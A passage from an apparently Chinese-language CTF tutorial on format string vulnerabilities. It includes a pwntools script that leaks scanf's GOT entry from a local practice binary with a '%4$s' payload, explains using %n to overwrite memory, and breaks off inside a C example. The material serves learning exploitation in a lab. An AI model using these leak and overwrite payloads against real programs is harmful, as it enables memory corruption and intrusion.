 直接尝试一下进入有用地址，试一下scanf@got的地址。我们可以尝试泄漏到scanf@got这里，然后再用%s访问看一下。

先gdb运行程序，然后got查看一下函数的got表初始化的函数。

![](https://i.bmp.ovh/imgs/2021/01/63099be5b8014b71.png)

这里的scanf函数是0x804a014..

pwntools写一个payload泄露scanf试一下。

！！！ 使用attach的时候因为会有弹窗，所以要在本机上使用，不能用ssh连接的窗口 ！！！

```python
from pwn import *
sh = process('./ex')
leakmemory = ELF('./ex')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

调试运行一下，

![](https://i.bmp.ovh/imgs/2021/01/19350e2399ceaeb4.png)

第四个参数确实是指向scanf

aaa gdb调试总是报错，Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)不知道咋搞

吐了，这里的参数，scanf好像也是第五个参数  （注意第一个参数是我们的输入字符串，所以这里没有问题），具体第几个有我们上面pad%p泄露得到。

#### 修改内存

上面我们学到了，利用格式化字符串漏洞可以泄露任意地址和他的内容，那么我们同样的也可以修改。

利用%n上面提到过%n之要对应的地址可写，那么我们就可以进行内存的覆盖（改写）

```%n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。```

也就是说

```
("%d","%n",5)
```

这种东西会输出，5并且把1存入%n所对应的地址.

通过这个类型参数，再加上一些小技巧，我们就可以达到我们的目的，这里仍然分为两部分，一部分为覆盖栈上的变量，第二部分为覆盖指定地址的变量。

举个例子

```c
#include <stdio.h>
/* example of overflow stack */
int a = 123, b = 456;
/* global */

int main(){
        int c = 789;
        char s[100];
        printf("%p\n",&c);
        /* print add of c */
        scanf("%s",s);
```
